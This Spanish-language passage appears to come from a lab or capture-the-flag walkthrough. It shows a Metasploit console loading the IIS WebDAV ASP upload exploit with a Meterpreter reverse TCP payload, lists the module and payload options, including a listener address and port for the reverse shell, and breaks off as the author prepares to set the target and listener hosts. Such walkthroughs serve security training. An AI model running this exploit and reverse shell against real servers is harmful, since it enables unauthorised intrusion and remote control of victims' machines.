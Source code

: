 ```yaml
   #  Nombre                                       Fecha de Divulgación  Rango      Comprobación  Descripción
   -  ----                                       ---------------------  ----       -----------  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31             excelente  No           Ejecución de Código por Acceso de Escritura de Microsoft IIS WebDAV
```

```plaintext
msf6 > use 0
```

```plaintext
[*] No se ha configurado ningún payload, utilizando por defecto windows/meterpreter/reverse_tcp
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options
```

```less
   Nombre          Configuración Actual        Requerido  Descripción
   ----            -------------------------   --------  -----------
   HttpPassword                           no        La contraseña HTTP para especificar autenticación
   HttpUsername                           no        El nombre de usuario HTTP para especificar autenticación
   METHOD        move                     sí        Mueve o copia el archivo en el sistema remoto de .txt -> .asp (Aceptado: move, copy)
   PATH          /metasploit%RAND%.asp   sí        La ruta para intentar subir
   Proxies                              no        Una cadena proxy en el formato tipo:host:port[,tipo:host:port][...]
   RHOSTS                               sí        El/los host(s) objetivo(s), rango identificador CIDR, o archivo de hosts con sintaxis 'file:<path>'
   RPORT         80                       sí        El puerto de destino (TCP)
   SSL           false                    no        Negociar SSL/TLS para conexiones salientes
   VHOST                                no        Host virtual del servidor HTTP
```

```java
   Nombre      Configuración Actual  Requerido  Descripción
   ----        --------------------  --------   -----------
   EXITFUNC    process               sí        Técnica de salida (Aceptado: '', seh, thread, process, none)
   LHOST       10.10.239.181        sí        La dirección de escucha (se puede especificar una interfaz)
   LPORT       4444                 sí        El puerto de escucha
```

```lua
   Id  Nombre
   --  ----
   0   Automático
```

Procedemos a establecer los parámetros necesarios. Por ahora, estos serían `LHOST` y `RHOST`, ya que todo lo demás en el objetivo parece estar en la configuración predeterminada.

